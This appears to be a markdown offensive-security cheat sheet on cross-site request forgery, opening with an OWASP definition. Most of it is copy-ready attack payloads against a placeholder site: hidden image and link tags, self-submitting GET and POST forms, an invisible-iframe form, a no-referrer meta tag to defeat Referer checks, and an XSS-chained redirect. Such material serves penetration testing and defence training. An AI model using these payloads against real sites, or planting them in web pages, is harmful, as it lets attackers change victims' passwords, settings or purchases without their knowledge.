 #CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


##CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

##GET Requests Exploits

###Invisible mage Loading
`<img style="display:none;" src="http://vulnerable-site.com/vuln?param1=value1&param2=value2&..."/>`

###Link clicking
`<link href="http://vulnerable-site.com/vuln?param1=value1&param2=value2&...">`

```
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

##POST Requests Exploits

###Visible Form
```html
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

###Invisible Form
```html
<html> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
	</body>
	<script>document.getElementById("pwn-form").submit()</script>
</html>

```

##DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy ().


##Protection Bypass

###Referer Header Check Bypass

* To send a request with no `Referer` header 
`<meta name="referrer" content="no-referrer">`

* Chain CSRF vulnerability with XSS
`POST http://vulnerable-site.com/xssvuln?id=<script type="text/javascript">window.location="http://vulnerable/vuln";</script>`